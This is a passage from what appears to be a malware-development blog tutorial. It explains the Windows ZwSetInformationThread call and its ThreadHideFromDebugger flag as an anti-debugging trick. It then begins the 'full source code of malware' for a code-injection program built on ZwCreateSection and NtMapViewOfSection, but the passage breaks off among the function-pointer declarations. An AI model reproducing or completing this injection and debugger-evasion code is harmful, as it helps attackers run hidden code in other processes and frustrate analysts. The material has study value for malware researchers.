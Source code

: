 ### ZwSetInformationThread    

Native function `ZwSetInformationThread` is declared like:    

```cpp
NTSYSAPI NTSTATUS ZwSetInformationThread(
  [in] HANDLE          ThreadHandle,
  [in] THREADINFOCLASS ThreadInformationClass,
  [in] PVOID           ThreadInformation,
  [in] ULONG           ThreadInformationLength
);
```

then in our code we use function pointer to `ZwSetInformationThread`:    

```cpp
typedef NTSTATUS(NTAPI* pZwSetInformationThread)(
  [in] HANDLE          ThreadHandle,
  [in] THREADINFOCLASS ThreadInformationClass,
  [in] PVOID           ThreadInformation,
  [in] ULONG           ThreadInformationLength
);
```

### practical example   

My example's logic is similar to [previous post](/tutorial/2022/01/14/malware-injection-13.html), the only difference is:    

![injection 2](/assets/images/36/2022-01-18_23-00.png){:class="img-responsive"}    

As you can see, I replaced payload launching logic.    

There is one interesting point with `ZwSetInformationThread`. The second parameter of this function is the `THREADINFOCLASS` structure, which is an enumerated type. The last label field is `ThreadHideFromDebugger`. By setting `ThreadHideFromDebugger` for the thread, you can prohibit a thread from generating debugging events. This was one of the first anti-debugging techniques provided by Windows in Microsoft's search for how to prevent reverse engineering, and it's very powerful.    

Full source code of malware:    

```cpp
/*
 * hack.cpp - code injection via ZwCreateSection, ZwUnmapViewOfSection, ZwQueueApcThread
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/01/17/malware-injection-14.html
*/
#include <cstdio>
#include <windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll")

// ZwCreateSection
typedef NTSTATUS(NTAPI* pZwCreateSection)(
  OUT PHANDLE            SectionHandle,
  IN ULONG               DesiredAccess,
  IN POBJECT_ATTRIBUTES  ObjectAttributes OPTIONAL,
  IN PLARGE_INTEGER      MaximumSize OPTIONAL,
  IN ULONG               PageAttributess,
  IN ULONG               SectionAttributes,
  IN HANDLE              FileHandle OPTIONAL
);

// NtMapViewOfSection syntax
typedef NTSTATUS(NTAPI* pNtMapViewOfSection)(
  HANDLE            SectionHandle,
```